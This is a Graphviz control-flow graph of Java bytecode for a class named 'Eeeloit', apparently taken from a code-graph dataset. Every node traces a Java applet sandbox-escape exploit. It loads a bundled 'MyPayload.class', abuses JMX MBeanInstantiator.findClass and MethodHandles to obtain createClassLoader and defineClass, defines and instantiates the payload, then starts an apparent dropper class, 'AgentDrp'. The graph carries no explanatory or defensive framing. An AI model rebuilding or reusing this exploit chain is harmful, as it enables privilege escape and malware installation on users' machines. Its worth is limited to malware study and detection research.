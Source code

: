 digraph "" {
    "r0 := @this: Eeeloit"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: Eeeloit"->"new java.io.ByteArrayOutputStream";
    "store.r r6"
    "new java.io.ByteArrayOutputStream"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r r6"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "load.r r0"
    "store.r r7"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"MyPayload.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"MyPayload.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"MyPayload.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r0";
    "goto load.r r0"
    "store.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r7"
    "load.r r0"->"load.r r7";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r5"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r5";
    "load.i r5"
    "store.i r5"->"load.i r5";
    "ifgt load.r r6"
    "load.i r5"->"ifgt load.r r6";
    "ifgt load.r r6"->"load.r r6";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r r6"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r r0";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r0"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "checkcast"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"dup1.r";
    "push \"sun.org.mozilla.javascript.internal.Context\""
    "dup1.r"->"push \"sun.org.mozilla.javascript.internal.Context\"";
    "push \"sun.org.mozilla.javascript.internal.Context\""->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r5"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r5";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""
    "store.r r5"->"push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\"";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""->"push null";
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r6";
    "store.r r6"->"load.r r6";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "load.r r6"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r7";
    "store.r r7"->"load.r r7";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "load.r r7"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findConstructor\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findConstructor\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push \"findConstructor\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push 1"
    "push class \"Ljava/lang/Class;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r10"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r10";
    "push 3"
    "store.r r10"->"push 3";
    "push 3"->"newarray";
    "store.r r12"
    "newarray"->"store.r r12";
    "load.r r12"
    "store.r r12"->"load.r r12";
    "load.r r12"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "load.r r12"->"push 1";
    "load.r r5"
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "push 2"
    "load.r r12"->"push 2";
    "load.r r10"
    "push 2"->"load.r r10";
    "load.r r10"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r12"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r12";
    "store.r r12"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r10";
    "store.r r10"->"load.r r10";
    "load.r r10"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r10";
    "load.r r10"->"push 1";
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r7";
    "load.r r7"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findVirtual\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findVirtual\"";
    "push \"findVirtual\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r10";
    "load.r r10"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r r10";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r10"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "store.r r15"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r15";
    "push 4"
    "store.r r15"->"push 4";
    "push 4"->"newarray";
    "store.r $r31"
    "newarray"->"store.r $r31";
    "load.r $r31"
    "store.r $r31"->"load.r $r31";
    "load.r $r31"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r $r31";
    "load.r $r31"->"push 1";
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r $r31";
    "load.r $r31"->"push 2";
    "push \"createClassLoader\""
    "push 2"->"push \"createClassLoader\"";
    "push \"createClassLoader\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r31";
    "load.r $r31"->"push 3";
    "load.r r15"
    "push 3"->"load.r r15";
    "load.r r15"->"arraywrite.r";
    "arraywrite.r"->"load.r r10";
    "load.r r10"->"load.r $r31";
    "load.r $r31"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r12";
    "load.r r12"->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r5";
    "store.r r5"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r12";
    "store.r r12"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r15";
    "store.r r15"->"load.r r15";
    "load.r r15"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 1";
    "push 1"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 2";
    "push \"defineClass\""
    "push 2"->"push \"defineClass\"";
    "push \"defineClass\""->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 3";
    "push 3"->"load.r r12";
    "load.r r12"->"arraywrite.r";
    "arraywrite.r"->"load.r r10";
    "load.r r10"->"load.r r15";
    "load.r r15"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "new AgentDrp"
    "pop"->"new AgentDrp";
    "specialinvoke <AgentDrp: void <init>()>"
    "new AgentDrp"->"specialinvoke <AgentDrp: void <init>()>";
    "goto return"
    "specialinvoke <AgentDrp: void <init>()>"->"goto return";
    "return"
    "goto return"->"return";
    "specialinvoke <AgentDrp: void <init>()>"->"store.r r0";
    "ifgt load.r r6"->"load.r r6";
    "load.r r6"->"load.r r7";
    "load.r r7"->"push 0";
    "push 0"->"load.i r5";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i r5"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
}
